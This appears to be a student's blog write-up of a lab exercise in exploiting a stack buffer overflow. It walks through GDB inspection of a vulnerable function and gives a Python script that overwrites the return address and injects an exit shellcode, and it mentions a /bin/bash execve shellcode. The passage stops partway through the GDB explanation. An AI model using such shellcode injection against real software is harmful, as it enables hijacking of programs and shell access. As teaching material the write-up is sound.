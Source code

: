 +++
title = 'Machine Problem 1'
date = 2024-02-22T20:20:00+08:00
draft = false
background_image = "/images/hackerman.jpg"
authors = ["Some people call me sycasec"]
+++


# I ain't readin allat:
- we break at `0x56556191` (`ret` from `vuln`) to observe behavior of `eip`
- following the suggested information-giving commands in `gdb`, we get the desirable `esp` in vuln being `0xffffcdf8`
- we try to craft the shell code
- compiling the given `asm` with necessary incantations fails
- we look for an exit one shell code in shell-storm
- we analyze shell code
	- `\x90 * 12` for padding
	- `\xf8\xcd\xff\xff` redirecting our `eip`
	- `\x31\xc0\x40\x89\xc3\xcd\x80` exit one shell code
- we also try inserting an `execve("/bin/bash")` shell code (ofc from shell-storm)
- \$\$\$ profit

exit one shell code full:
``` python
import struct

# we want to write past the sfp and change rip
nop = "\x90"
ret_address = 0xffffcdf8
redirect = struct.pack("<I", ret_address)
exit_one = b"\x31\xc0\x40\x89\xc3\xcd\x80" 

payload = (nop * 12) + redirect + exit_one

with open("payload", "wb") as f:
	f.write(payload)
```

However we also try a different method of inserting the shell code, as described further down below.

And with that,

# Know thy enemy

Let's first take a look at the instructions for `main` and `vuln`:

{{< figure src="main.png" title="main.png" width="400" class="centered" >}}
{{< figure src="vuln.png" title="vuln.png" width="400" class="centered" >}}

Then, we define `hook-stop` to allow us to view the next 1 instruction on the `eip`, and 16 words starting from the `esp` register. This is gonna give us an upside-down view of the stack starting from the `$esp` register. This is beneficial to us since the `$esp` is pointed to the very bottom of the current stack frame, allowing us to see the contents of the current frame being executed.

